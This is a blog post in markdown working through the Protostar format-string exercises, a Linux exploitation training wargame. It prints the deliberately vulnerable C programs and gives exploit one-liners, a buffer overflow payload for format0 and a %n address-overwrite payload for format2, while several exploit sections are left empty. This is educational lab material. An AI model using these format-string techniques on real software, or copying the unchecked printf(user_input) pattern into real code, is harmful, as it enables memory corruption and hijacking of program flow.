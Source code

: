 ```yaml
---
layout: post
title:  "Exploit Exersises Protostar Format"
date:   2020-1-10 0:06:00 +0000
categories: Exploit-Exersises
---
```

In this series ill be covering the protostar exersises from exploit-exersises / exploit.education. Its a series of challenges designed to teach common linux exploits that will occur in CTF challenges.
Protostar introduces a range of things in a way that takes it from introductory to more advanced:
- Network programming
- Byte order
- Handling sockets
- Stack overflows
- Format strings
- Heap overflows


# Format Zero
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
{% endhighlight %}

Vulnerability

Exploit:
{% highlight bash %}
./format0 $(python -c "print 'A'*64 + '\xef\xbe\xad\xde'")
{% endhighlight %}
# Format One
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
{% endhighlight %}

Vulnerability
Exploit:
{% highlight bash %}

{% endhighlight %}
# Format Two
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
{% endhighlight %}
Vulnerability

Exploit:
{% highlight bash %}
$ python -c 'print "\xe4\x96\x04\x08%60d%4$n"' | ./format2
                                                         512
you have modified the target :)
{% endhighlight %}
# Format Three
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
{% endhighlight %}
Vulnerability
Exploit:
{% highlight bash %}
{% endhighlight %}
# Format Four
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
{% endhighlight %}
Vulnerability
Still the printf on line 20, but this time we need to use our overwrite capabilities to control the program flow and call the uncalled hello function. Basically like an overflow. 
Exploit:
{% highlight bash %}
{% endhighlight %}
<br>
Thats it for the format series of exercises. Next is the heap stuff.
<br>
Exploit-Exercises: 
 - [Stack](link)
 - [Format](link)
 - [Heap](link)
 - [Net](link)
 - [Final](link)


